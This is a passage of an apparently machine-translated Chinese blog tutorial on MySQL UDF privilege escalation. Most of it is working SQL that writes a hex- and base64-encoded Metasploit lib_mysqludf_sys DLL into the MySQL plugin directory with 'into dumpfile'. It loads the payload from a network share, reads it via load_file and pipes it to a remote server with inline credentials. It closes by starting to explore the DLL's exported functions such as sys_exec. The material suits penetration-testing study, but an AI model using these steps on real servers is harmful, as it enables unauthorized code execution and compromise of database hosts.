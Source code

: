 ```
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);

select data from temp into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
您也可以直接从磁盘将文件从网络共享加载到上面创建的表中，或使用“加载数据infile”语句在本地加载。像上面显示的那样将文件转换为十六进制，并在写入磁盘时取消对其的编辑。
```
load data infile '\\\\192.168.0.19\\network\\udf.hex' 
into table temp fields terminated by '@OsandaMalith' 
lines terminated by '@OsandaMalith' (data);

select unhex(data) from temp into dumpfile 'D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll';
```
从MySQL 5.6.1和MariaDB 10.0.5开始有好消息。介绍了函数'to_base64'和'from_base64'。如果你是一个喜欢绕过SQL注入WAFs的人，你可能已经在使用这些函数（提示：路由查询注入）。
```
select to_base64(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) 
into dumpfile '/tmp/udf.b64';
```
您可以编辑base64文件并添加以下行以转储到插件目录。
```
select from_base64("TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAA8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1v
ZGUuDQ0KJAAAAAAAAAAzwu3gd6ODs3ejg7N3o4OzafEQs3Wjg7Np8QCzfaODs2nxB7N1o4OzUGX4
s3Sjg7N3o4KzW6ODs2nxCrN2o4OzafEWs3Wjg7Np8RGzdqODs2nxErN2o4OzUmljaHejg7MAAAAA
AAAAAAAAAAAAAAAAUEUAAGSGBgBwsYNLAAAAAAAAAADwACIgCwIJAAASAAAAFgAAAAAAADQaAAAA
EAAAAAAAgAEAAAAAEAAAAAIAAAUAAgAAAAAABQACAAAAAAAAgAAAAAQAADPOAAACAEABAAAQAAAA
AAAAEAAAAAAAAAAAEAAAAAAAABAAAAAAAAAAAAAAEAAAAAA5AAAFAgAAQDQAADwAAAAAYAAAsAIA
AABQAABoAQAAAAAAAAAAAAAAcAAAEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAwAABwAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALnRleHQAAAAR
EAAAABAAAAASAAAABAAAAAAAAAAAAAAAAAAAIAAAYC5yZGF0YQAABQsAAAAwAAAADAAAABYAAAAA") 
into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
之后，你可以像这样将整个文件传递给mysql。
```
mysql -h 192.168.0.30 -uosanda -pabc123 < /tmp/udf.b64
```
您也可以使用上面讨论的“load data infile”语句直接从网络共享或本地编写base64编码文件，并像这样转储。
```
select from_base64(data) from temp 
into dumpfile 'D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll';
```

## 探索DLL
大多数时候我看到人们只写关于Metasploit内部的这个DLL中的'sys_exec'函数。为了好奇，我想到了扭转这个DLL并探索其他功能。如果我们检查导出目录，我们可以看到作者写了几个更有用的函数。我会展示一些有用的功能。
![](https://osandamalith.files.wordpress.com/2018/02/export-dir.png)
